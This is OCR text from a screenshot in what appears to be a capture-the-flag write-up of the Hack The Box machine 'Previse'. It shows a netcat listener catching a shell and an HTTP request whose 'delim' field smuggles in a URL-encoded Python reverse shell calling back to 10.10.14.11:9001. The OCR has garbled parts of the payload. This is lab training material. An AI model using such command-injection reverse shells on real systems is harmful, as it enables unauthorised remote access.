 ![](Maszyny/Linux/Previse/Pasted%20image%2020210816173741.png)

CS
(kali kali)-[~/htb/previse/siteBackup
rlwrap nc - vnp 9001
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.11.104.
Ncat: Connection from 10.10.11.104:42568.
can't access tty; job control turned off
$
12 Accept -Language: en-US, en;q=0.9
13 Cookie: PHPSESSID=b40uul p7ak56rjri732109cls
14 Connection: close
15
16 delim=
comma; python+-C+'import+socket, subprocess, os%3bs%3dsocket.sock
et (socket. AF_INET, socket. SOCK_STREAM)%3bs.connect(("10.10.14.1
1",9001))%3bos. dup21 s. fileno (7,0)%3b+os. dup21 s. fileno),1)%3b+
os. dup21s.fileno),2)%3bp%3dsubprocess.call(["/bin/sh","-1"])%
3b
